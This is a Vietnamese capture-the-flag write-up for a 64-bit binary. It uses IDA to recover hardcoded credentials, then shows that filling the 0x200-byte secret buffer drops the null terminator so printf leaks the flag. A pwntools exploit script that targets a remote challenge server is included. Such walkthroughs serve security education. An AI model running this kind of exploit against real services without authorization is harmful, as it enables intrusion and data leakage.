 Giờ ta sẽ nhìn sơ qua file binary được cung cấp và các chế độ bảo vệ


![image](https://user-images.githubusercontent.com/114044703/213348890-bc9b12fb-91c8-4bb0-aee4-7bbae89d76e3.png)

![image](https://user-images.githubusercontent.com/114044703/213348466-8d8d4f82-fb1a-4d92-aa7e-b4ae0890aaca.png)

Vậy chúng ta sẽ làm việc với file binary 64 bit. Khi chạy thì chương trình sẽ yêu cầu ta nhập tên và mật khẩu.

![image](https://user-images.githubusercontent.com/114044703/213349666-02ebd573-2600-4e0d-b681-887df95c549e.png)

![image](https://user-images.githubusercontent.com/114044703/213349827-83332f9b-af6e-43bb-9e94-976588f1d8c9.png)


Khi nhìn hàm main thông qua trình IDA thì ta thấy nếu username là "KCSC_4dm1n1str4t0r" và pass bằng với biến passwq hay là chuỗi "wh3r3_1s_th3_fl4g". Thì ta có thể nhập vào biến secrect 0x200 byte và in nó ra


Giờ ta sẽ debug chương trình và đặt breakpoint tại read secret. Sau đó kiểm tra xem trong 0x200 byte sắp ghi vô có gì đặc biệt không 

![image](https://user-images.githubusercontent.com/114044703/213351330-b72cf172-a8b5-4ee3-905d-191056005c5c.png)

Ở đây mình đã tạo flag là "BBBBBBBB" và dễ nhận thấy rằng sau secrect chính là flag. Vậy bài này ta cần thỏa mãn Username và password, sau đó lợi dụng cơ chế của printf bằng cách ghi 0x200 byte và để chèn byte null khiến cho printf in ra flag

Ta sẽ khai thác với những dữ liệu này:
```
from pwn import *
debug=1
if debug:
	t=process('./cat')
	#gdb.attach(t,api=True)
else:
	t=remote("159.89.197.210",9994)
t.sendafter(b"Username:",b"KCSC_4dm1n1str4t0r")
t.sendafter(b"Password:",b"wh3r3_1s_th3_fl4g")
t.sendafter(b"Your secret:",b"A"*0x200)
t.interactive()

```

Và sau khi chạy file(giờ đổi lại flag thành FLAG{} cho dễ nhìn :>):

![image](https://user-images.githubusercontent.com/114044703/213352196-794745c5-359b-4ea6-a3e0-f3fc51228325.png)


